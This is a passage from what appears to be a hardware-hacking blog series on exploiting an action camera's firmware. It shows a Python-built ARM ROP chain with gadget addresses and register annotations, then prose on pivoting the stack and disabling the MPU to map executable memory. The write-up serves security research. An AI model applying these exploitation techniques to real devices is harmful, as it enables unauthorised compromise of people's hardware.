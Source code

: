 ```
request += p32(0xc046a980) # r6 <- change for add (0xc046a980) or sub (0xc01133bc)
request += p32(0xdeadbeef) # r7
request += p32(0xdeadbeef) # r11
request += p32(0xc0570e14) # pc

# need to increment r0

# | 0xc0570e14 | c0570e14 | ldr r4,[r5,#0x30] | c0570e18 | blx r6 | 

# | 0xc046a980 | c046a980 | add r0,r0,r4 | c046a984  | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xdeadbeef) # r4
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
request += p32(0xc01bbd80) # pc

# | 0xc01bbd80  | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
request += p32(0xc021ff38) # r4 <- we get this gadget to set the sp from our r11 and load registers from our new stack
request += p32(0xdeadbeef) # r5
request += p32(0xc05c49d9) # r6 <- this is a thumb mode gadget
request += p32(0xc09afec0) # r7 <- this MUSt be this address (it is the address of a mutex we unlock)
request += p32(0xc03b2c40) # r8
request += p32(0xdeadbeef) # r9
request += p32(0xdeadbeef) # r11
request += p32(0xc03f4b90) # pc

# | 0xc03f4b90 | c03f4b90 | cpy r10,r0 | c03f4b98  | blx r8 | 
# | 0xc03b2c40 | c03b2c40 | mov r8,#0x0 | c03b2c44 | blx r6 |
# | 0xc05c49d8 | c05c49d8 | add.w r11,r10,r8 | c05c49e0  | blx r4  | <- clobbers r1/2, thumb as well probs, but sets the r11 to something we control
```

Cool, so now we have a much larger and less limited secondary ROP-chain to work with!

# Mapping Executable Memory

Now that we are less restrained on gadgets and values we can pop off of the stack (as we can now include null terminators), we should be able to figure out how memory is mapped, and reuse some of those functions to map some executable memory that we control.

## MPU or MMU?

At this point I still have no idea what the CPU in this MCU is, so I didn't know if it had an MPU or an MMU - I tried using the following function to turn the MPU off (which I reversed out of memory management functions) to disable all memory protections, letting me execute code:

![mem_read.png](/assets/images/analysing_an_action_camera_part_4/turn_off_mpu.png)
